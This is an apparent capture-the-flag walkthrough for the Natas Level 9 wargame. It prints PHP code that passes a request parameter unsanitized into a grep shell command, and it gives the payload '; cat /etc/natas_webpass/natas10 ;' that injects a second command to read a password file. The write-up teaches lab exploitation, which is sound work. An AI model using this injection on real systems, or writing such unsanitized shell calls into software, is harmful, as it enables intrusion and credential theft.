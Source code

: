 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

<br/>

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

<span id="green">Our payload</span>     `; cat /etc/natas_webpass/natas10 ;` <br/>
_Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;`_

As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)


<br/>

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
`;` terminates `grep` command, runs our `cat` command and terminates it again.

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
